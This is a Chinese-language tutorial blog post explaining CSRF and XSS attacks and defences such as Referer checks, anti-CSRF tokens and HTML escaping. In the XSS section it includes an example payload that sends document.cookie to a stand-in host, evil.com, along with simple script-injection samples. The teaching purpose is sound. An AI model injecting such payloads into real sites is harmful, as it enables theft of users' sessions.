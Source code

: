 ```yaml
---
title: CSRF 与 XSS
date: 2018-08-21
tags: 网络安全
---
```


CSRF 与 XSS 都为跨站式的请求攻击容易让人混淆，本文将对这两种攻击及对应防范方法进行梳理。

<!-- more -->

### CSRF (Cross-Site Request Forgery) 跨站请求伪造

攻击者盗用了用户的身份以用户的名义进行恶意请求，如发送邮件、银行转账等。

如用户 A 在 example 网站上进行转账，通过 http://example.com/withdraw?user=A&amount=100 进行转账请求并携带存储在浏览器的相关验证信息如 cookie ，服务器通过对 cookie 的验证确认用户信息完成转账。

若 A 在保持 example 网站登录时访问了恶意网站，并被引诱点击链接 http://example.com/withdraw?user=A&amount=100 ，因浏览器关于此网站的相关验证信息还没过期，该请求也携带相关验证信息对服务器进行请求，服务器通过对验证信息的确认认为用户身份没有问题也完成转账。

由此攻击者利用服务器对浏览器的信任成功盗用用户 A 的身份进行银行转账。

#### 防御

#### 1. 使用 HTTP 头部的REFERER字段

请求头中的 REFERER 字段记录了请求来源的地址，在处理敏感信息时一般将请求地址与 Referer 字段处于同一域名下，服务器可以通过对 REFERER 值判断该请求是否正常。从恶意网站中被引诱点击的请求 REFERER 值为该恶意网站，由此服务器可以拒绝此请求。
此方式简单易用，仅需要在服务器判断 REFERER 字段值即可。然而虽然 HTTP 协议规定了不可对 REFERER 字段进行修改，实际上并不能保证浏览器的具体实现，有些低级浏览器的安全漏洞也使得攻击者对 REFERER 字段进行修改。

#### 2. 使用验证码

验证码强制用户必须参与请求交互，通常情况下可以很好防止 CSRF 攻击。但出于用户体验的考虑，一个网站并不可能每个请求都需要用户输入验证码。此方法只能作为协助手段，并不能通用解决 CSRF 问题。

#### 3. 使用 Anti CSRF Token 验证

CSRF 攻击者利用了存储在浏览器的验证信息通过服务器验证，其实只要验证信息不直接存储在浏览器中即可防范。
服务器可以使用 cookie 或 Session 携带验证信息的 token ，但直接使用 cookie 或 Session 进行请求并不能通过服务器验证，而是需要客户端获取 cookie 或 Session 中 token 信息并在请求头设置验证字段发送请求。
浏览器的同源策略使得处于不同域名下的恶意网站并不能获取分析浏览器中的 cookie 或 Session 信息，从而不能设置具体的请求验证字段通过服务器验证。
此方法最为常用。

### XSS (Cross-site scripting) 跨站脚本

攻击者利用网页开始时留下的漏洞，通过巧妙的方法往网页中注入恶意代码，使用户加载和执行这些恶意代码从而达到网页攻击的作用，如修改网页内容，盗取网站 cookie 或会话信息等。

如一个网站上有留言板，将用户输入信息显示出来，若不对输入信息进行处理，攻击者便有机会往留言板写入恶意 JS 代码进行攻击。
正常用户往留言板留言：
```
Nice!
```
留言板的 HTML 代码将为：
```html
//  这是一个正常显示的留言板
<div> 
    Nice
</div>
```
恶意攻击者往留言板留言：
```html
<script>alert('you are attacked!');</script>
```
留言板的 HTML 代码将为：
```html
<!--  这是一个被攻击的留言板 -->
<div> 
    <script>alert('you are attacked!');</script>   
</div> 
```
其中的 JS 代码将会执行，浏览器弹出对话框显示 you are attacked!。这只是弹出对话框吓一下你，然而当攻击者通过留言获取网站的 cookie 信息就危险了：
```html
<script>window.open(www.evil.com?content=document.cookie);</script>
```
www.evil.com 便可得到用户在该网站的 cookie 信息了。

#### 防御

#### 1. 对输入值进行转义

其实本质就是不相信任何用户输入，不能将用户输入直接写到 HMLT DOM 结果里。若网站开发者将留言板的输入信息过滤掉<scirpt></sciprt>这个 HTML 元素，其中的 JS 代码将不会被浏览器解析危害用户了。开发者可使用以下[规则](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet)对输入值进行转义：

| 转义类型 | 转义方式 |
| ------- | --------------------------------------- |
| HTML 实体转义 | &amp; 转为  &amp;amp; <br> &lt; 转为 &amp;lt; <br> &gt; 转为 &amp;gt; <br> &quot; 转为 &amp;quot; <br> &#27; 转为 &amp;#27; <br> &#x2F; 转为 &amp;#x2F; |
| HTML 属性编码 | 除了字母，转换所有字符为 &amp;#xHH; 形式，包括空格（HH = Hex 数值）    |
| URL 编码     | URL编码应该只用于参数部分，而不是整个URL或URL路径部分。<br> 标准的编码可参考 http://www.w3schools.com/tags/ref_urlencode.asp    |
| JavaScript 编码  | 除了字母，转换所有字符为 \uXXXX 的 unicode 转义形式（X = 整数）     |
| CSS Hex 编码   |  CSS 转义支持 \XX 和 \XXXXXX 的形式。如果下一个字符会继续转义序列，那使用两个字符的转义形式可能会出现问题。<br> 有两种解决办法（a）在 CSS 转义后添加一个空格（会被 CSS 解析器忽略）（b）使用0填充以实现完整的 CSS 转义格式。 |

如用户输入内容是：
```html
<script>alert('attacked!');</script>
```
转义后的字符串是：
```html
&lt;script&gt;alert(&quot;attacked!&quot;)&lt;/script&gt;
```

浏览器遇到 <script></script> 字符串会对其进行 JS 代码解析，但遇到 ```&lt;&gt;``` 这样的字符就不会当做 JS 代码执行而仅作为普通字符串打印，由此可以防范代码注入。
当今的主流前端框架如 [Angular](https://angular.cn/guide/security) 等已支持对输入值的无公害处理以防范 XSS ，使用这些框架我们则不需要自己对输入信息进行转义。

### 总结
可以说 XSS 利用的是用户对指定网站的信任; CSRF 利用的是网站对用户网页浏览器的信任。
使用对应的手段可以防御一定的网络攻击，但作为开发者，我们也只能尽可能提高网络攻击的难度，没有一定安全的网络。只有进一步提高攻击者的门槛使得网络逼近绝对安全的位置。